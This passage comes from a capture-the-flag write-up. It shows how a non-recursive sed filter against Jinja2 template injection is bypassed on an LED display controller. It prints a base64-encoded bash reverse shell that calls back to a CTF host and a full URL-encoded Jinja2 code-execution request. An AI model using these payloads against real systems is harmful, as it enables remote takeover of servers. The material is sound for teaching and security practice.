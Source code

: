 I finally had a flag!

```bash
$ askgod submit FLAG-9efcd6325e8ae8e828562a16af162c5a
Congratulations, you score your team 2 points!
Message: Oh, we can see the code now. Can we find a bug in the code to gain full control? (2/3)
```

## Flag 3

The update script had the regular expression that was used to prevent SSTI. 
```bash
echo "$OPTARG" | sed -E 's/(__|\{[%\{]|[\}%]\})//g' > "$MESSAGE_FILE"
```

This regular expression was looking for a few pairs of characters and replacing them with nothing.

* `{% raw %}__{% endraw %}`
* `{% raw %}{%{% endraw %}`
* `{% raw %}{{{% endraw %}`
* `{% raw %}%}{% endraw %}`
* `{% raw %}}}{% endraw %}`

I thought that this replacement was not recursive. So I might be able to construct a valid SSTI by constructing a payload and inserting extra tags between the tags I needed. For example if I used `{% raw %}{__{{% endraw %}`, the regular expression would remove the `{% raw %}__{% endraw %}` and leave me with the `{% raw %}{{{% endraw %}` I needed.

I tried it locally.

```bash
$ cat test.sh
OPTARG="{__{7*7}__}"
echo $OPTARG | sed -E 's/(__|\{[%\{]|[\}%]\})//g'

$ sh test.sh                                                                                                                                
{% raw %}{{7*7}}{% endraw %}
```

It worked! I tried sending it to the server and got 49 on the display. I was able to run code on the server.

I used that to get a reverse shell. First I built a payload without special characters to make sending it over HTTP easier.

```bash
$ echo 'bash -c "bash  -i >& /dev/tcp/shell.ctf/443 0>&1" ' | base64
YmFzaCAtYyAiYmFzaCAgLWkgPiYgL2Rldi90Y3Avc2hlbGwuY3RmLzQ0MyAwPiYxIiAK
```

Next I inserted into Remote Code Execution payload for Jinja2. And inserted the extra tags between the needed tags and sent it to the server.

```http
GET /?host=led-display.ctf&port=22&username=service&function=custom_message&argument=%7B__%7B+%27%27._%7B%7B_class_%7B%7B_.mro%28%29%5B1%5D._%7B%7B_subclasses_%7B%7B_%28%29%5B267%5D%28%27echo+YmFzaCAtYyAiYmFzaCAgLWkgPiYgL2Rldi90Y3Avc2hlbGwuY3RmLzQ0MyAwPiYxIiAK+%7Cbase64+-d+%7C+bash%27%2Cshell%3DTrue%2Cstdout%3D-1%29.communicate%28%29%5B0%5D.strip%28%29+%7D__%7D&password=Bonsecours123%21 HTTP/1.1
Host: led-display-controller.ctf:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
```
